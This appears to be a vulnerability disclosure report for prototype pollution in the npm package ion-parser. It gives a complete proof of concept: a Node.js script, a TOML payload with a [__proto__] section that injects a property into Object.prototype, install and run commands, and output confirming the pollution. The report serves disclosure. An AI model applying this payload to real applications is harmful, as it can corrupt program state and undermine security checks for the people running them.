 # Description 

Prototype Pollution in ion-parser

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var fs = require('fs')
var ion = require('ion-parser')
console.log("Before : " + {}.polluted);
var parsed = ion.parse(fs.readFileSync('./payload.toml', 'utf-8'))
console.log("After : " + {}.polluted);

//payload.toml
[__proto__]
polluted = "Yes! Its Polluted"
```

2. Execute the following commands in terminal:

```
npm i ion-parser # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
